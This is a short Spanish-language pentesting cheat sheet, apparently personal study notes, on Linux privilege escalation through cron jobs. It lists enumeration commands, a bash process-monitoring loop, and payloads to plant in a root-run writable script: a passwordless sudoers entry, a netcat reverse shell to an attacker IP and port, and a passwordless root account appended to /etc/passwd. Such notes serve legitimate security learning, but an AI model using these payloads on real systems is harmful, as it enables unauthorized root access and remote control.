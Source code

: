 ```bash
❯ cat /etc/crontab                   # Tareas CRON: son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 
```

```bash
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
```

```bash
❯ cat /etc/crontab                   # Ver el archivo como se estan ejecutando las tareas CRON
```

```bash
	Si miramos esta ruta en el file **\*/S * * * * root /writable/script.sh** # Podemos escribir lo que sea dentro de ese archivo y asi ganar privilegio: 
		**echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers** Hacemos que no nos pida la passwd
		**nc < IP> < PORT> -e /bin/sh** Para poder hacer una revershell
		**echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd** Para poder tener acceso a todo
```

* Podemos crearnos un Script Manual para ver las tareas que se estan ejecutando y ver lor procesos nuevos, antiguos, asi como comandos y ver cual proceso nos puede ayudar a escalar privilegios. 
   Despues encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
```bash 
❯ nano file.sh

	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
	
	# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="$(ps -eo command)"

	while true; do
		new_process="$(ps -eo command)"
		diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
		old_process=$new_process
	done	
```


****
```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```




